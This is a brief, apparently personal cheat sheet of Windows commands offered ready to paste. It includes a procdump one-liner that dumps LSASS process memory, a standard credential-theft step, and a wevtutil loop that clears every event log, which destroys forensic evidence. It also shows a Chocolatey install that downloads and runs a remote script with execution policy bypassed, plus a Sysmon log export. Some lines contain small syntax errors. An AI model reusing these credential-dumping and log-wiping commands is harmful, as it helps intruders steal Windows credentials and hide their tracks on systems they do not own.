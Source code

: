 Live sys internals (ps)
```
net use s: \\live.sysinternals.com\tools;
s:\procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1'
```

Choco install
```
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-ObjectSystem.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
```

Clear all logs
```
wevtutil el | Foreach-Object {wevtutil cl “$_”};
ping localhost;
```

Export sysmon log
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:sysmonview > $env:HOMEPATH\Downloads\eventlog.xml
```

